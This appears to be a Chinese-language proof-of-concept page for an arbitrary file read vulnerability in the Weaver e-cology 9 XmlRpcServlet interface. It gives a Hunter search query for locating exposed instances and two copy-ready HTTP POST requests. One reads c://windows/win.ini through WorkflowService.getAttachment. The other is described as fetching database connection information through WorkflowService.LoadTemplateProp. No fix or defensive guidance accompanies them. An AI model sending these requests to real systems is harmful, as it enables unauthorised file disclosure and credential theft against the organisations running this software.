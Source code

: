 # 泛微e-cology9接口XmlRpcServlet存在任意文件读取漏洞

泛微e-cology是一款由泛微网络科技开发的协同管理平台，支持人力资源、财务、行政等多功能管理和移动办公。泛微e-cology XmlRpcServlet存在任意文件读取漏洞，攻击者可通过该漏洞获取敏感信息

## hunter

```yaml
app.name=="泛微 e-cology 9.0 OA"
```

## poc

```yaml
POST /weaver/org.apache.xmlrpc.webserver.XmlRpcServlet HTTP/1.1
Host: {hostname}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: application/xml
Accept-Encoding: gzip
Content-Length: 201
 
<?xml version="1.0" encoding="UTF-8"?>
<methodCall>
<methodName>WorkflowService.getAttachment</methodName>
<params>
<param>
<value><string>c://windows/win.ini</string></value>
</param>
</params>
</methodCall>
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407171252023.png)

### 获取数据库连接信息

```yaml
POST /weaver/org.apache.xmlrpc.webserver.XmlRpcServlet HTTP/1.1
Host: {hostname}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: application/xml
Accept-Encoding: gzip
Content-Length: 201
 
<?xml version="1.0" encoding="UTF-8"?>
<methodCall>
<methodName>WorkflowService.LoadTemplateProp</methodName>
<params>
<param>
<value><string>weaver</string></value>
</param>
</params>
</methodCall>
```

